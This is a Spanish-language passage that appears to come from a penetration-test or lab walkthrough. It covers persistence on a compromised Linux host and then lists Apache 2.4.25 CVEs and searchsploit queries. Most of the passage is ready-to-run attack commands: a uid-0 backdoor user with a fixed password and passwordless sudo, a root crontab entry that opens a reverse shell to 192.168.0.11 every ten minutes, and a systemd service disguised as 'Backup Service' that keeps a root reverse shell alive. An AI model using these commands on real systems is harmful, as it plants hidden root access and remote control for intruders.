 #### Usuario Backdoor
```bash
# Crear usuario con privilegios
useradd -ou 0 -g 0 backup_admin
echo "backup_admin:SecretPass123" | chpasswd

# Agregar a sudoers
echo "backup_admin ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

#### Cron Job Persistence
```bash
# Cron job que mantiene acceso
echo "*/10 * * * * root /bin/bash -i >& /dev/tcp/192.168.0.11/4444 0>&1" >> /etc/crontab

# Servicio personalizado
cat > /etc/systemd/system/backup.service << EOF
[Unit]
Description=Backup Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.11/5555 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backup.service
```

---

## Fase 5: Análisis de Vulnerabilidades Alternativas

### 5.1 Vectores de Ataque No Explorados

#### Análisis de Versiones de Software

**Apache 2.4.25 (Debian)**
```bash
# Búsqueda de vulnerabilidades conocidas
searchsploit apache 2.4.25
searchsploit apache debian

# CVEs potenciales
# - CVE-2017-7679: mod_mime buffer overread
# - CVE-2017-3167: Authentication bypass
# - CVE-2017-3169: mod_ssl NULL pointer dereference
```
